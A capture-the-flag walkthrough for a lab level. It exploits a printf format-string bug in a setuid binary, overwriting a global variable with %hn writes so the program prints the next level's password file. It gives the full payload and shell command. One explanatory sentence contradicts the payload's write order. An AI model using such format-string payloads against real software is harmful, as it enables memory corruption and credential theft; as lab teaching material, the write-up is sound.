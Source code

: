 # Level4
Level4 is about going further on global variables and formatted strings exploits

# Tools

# Walkthrough
The home of level4 contains binary, as usual.

Upon decompiling it with dogbolt, we see an interesting function:
```c
void n()
{
    char v0;  // [bp-0x20c]

    fgets(&v0, 0x200, __bss_start);
    p(&v0);
    if (m == 16930116)
    {
        system("/bin/cat /home/user/level5/.pass");
        return;
    }
    return;
}
```

The goal of this exercice seemsp pretty similar to the goal of the previous exercice.
THe core difference here lies in the number compared to `m`. 
`16930116` is too big of a number to only be written on 2-bytes (also called 'word'), and writing 4 bytes (called 'double word' or 'dword' for short) in a signe shot can be risky.

We want to find the address of `m` (it's a global variable):
```bash
objdump -t level4
...
08049810 g     O .bss	00000004              m
...
```

The function `n` calls function `p`, which contains a vulnerable `printf` call:
```c
int __cdecl p(char *format)
{
  return printf(format);
}
```

We want to exploit that code to overwrite the value of `m` to get in the `if` segment. 

First, we need to know where we are the memory when abusing the `printf`. With trial and error:
```
level4@RainFall:~$ ./level4 <<< $(python -c 'print "AAAA" + "%12$x "')
AAAA41414141
```
So we start overwriting after 11 double words, at dword 12. 

`16930116` = `0x01025544`
As discussed earlier, it's too big of a number to fit on 2 bytes, even in hexadecimal.
Thus, we split it in two parts:
`0x0102`= `258` and `0x5544` = `21828`

Because of the little-endianness, we want to write the low value bytes in the lower memory addresses. Thus, `258` will be written at `0x08049810` (address of `m`), and `21828` at `0x08049812`(address of `m` + 2 (bytes we have written previously)).

Addresses in little endian:
`"\x12\x98\x04\x08" + "\x10\x98\x04\x08"`
Writting a value using `hn` (int on only 2 bytes) and padding:
`"%(258 - 8)d" + "%12$hn" + "%(21828 - 258)d" + "%13$hn"`

Giving the payload:
`"\x12\x98\x04\x08\x10\x98\x04\x08%250d%12$hn%21570d%13$hn"`

Start the programme with the payload:
```bash
python -c 'print "\x12\x98\x04\x08\x10\x98\x04\x08%250d%12$hn%21570d%13$hn"' > attack.txt; cat attack.txt - | ./level4
```

# Resources
